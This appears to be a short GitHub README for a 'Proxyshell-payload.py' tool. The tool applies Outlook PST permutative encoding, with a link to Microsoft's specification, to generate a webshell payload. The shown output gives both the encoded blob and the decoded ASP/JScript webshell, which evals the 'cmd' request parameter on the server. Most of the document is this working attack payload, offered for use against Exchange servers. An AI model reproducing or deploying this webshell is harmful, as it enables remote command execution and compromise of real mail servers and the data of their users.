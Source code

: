 # Py Permutative Encoding
https://docs.microsoft.com/en-us/openspecs/office_file_formats/ms-pst/5faf4800-645d-49d1-9457-2ac40eb467bd

## Generate proxyshell payload
```
╰─❯ python Proxyshell-payload.py
[+] Encode webshell ⬇
ldZUhrdpFDnNqQbf96nf2v+CYWdUhrdpFII5hvcGqRT/gtbahqXahoI5uanf2jmp1mlU041pqRT/FIb32tld9wZUFLfTBjm5qd/aKSDTqQ2MyenapanNjL7aXPfa1hR+glSNDYIPa4L3BtapXdqCyTEhlfvWVIa3aRTZ

[+] Decode webshell ⬇
<script language='JScript' runat='server' Page aspcompat=true>function Page_Load(){eval(Request['cmd'],'unsafe');}</script>
```